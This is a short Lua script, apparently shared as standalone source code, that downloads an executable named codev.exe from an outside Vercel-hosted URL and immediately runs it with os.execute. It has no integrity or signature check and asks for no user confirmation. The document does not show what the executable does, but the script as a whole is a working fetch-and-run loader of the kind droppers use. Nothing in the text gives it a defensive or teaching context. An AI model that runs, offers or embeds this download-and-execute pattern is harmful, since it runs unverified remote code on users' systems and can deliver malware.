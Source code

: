 local http = require("socket.http")
local ltn12 = require("ltn12")
local os = require("os")

-- URL of the .exe file to download
local exeUrl = "https://codev-zeta.vercel.app/codev.exe"

-- Filename to save the downloaded .exe file
local exeFilename = "codev.exe"

-- Function to download a file from a URL
local function downloadFile(url, filename)
    local file, err = io.open(filename, "wb")
    if not file then
        print("Error opening file for writing:", err)
        return false
    end

    local body, code, headers = http.request {
        url = url,
        sink = ltn12.sink.file(file),
        protocol = "tlsv1_2"
    }

    file:close()

    if code == 200 then
        print("File downloaded successfully:", filename)
        return true
    else
        print("Error downloading file. HTTP status code:", code)
        return false
    end
end

-- Function to execute the downloaded .exe file
local function executeExe(filename)
    local result = os.execute(filename)
    if result == 0 then
        print("Execution of", filename, "completed successfully.")
    else
        print("Error executing", filename)
    end
end

-- Main script execution
print("Downloading", exeUrl, "...")
if downloadFile(exeUrl, exeFilename) then
    print("Download completed.")
    print("Executing", exeFilename, "...")
    executeExe(exeFilename)
else
    print("Download failed. Unable to execute.")
end
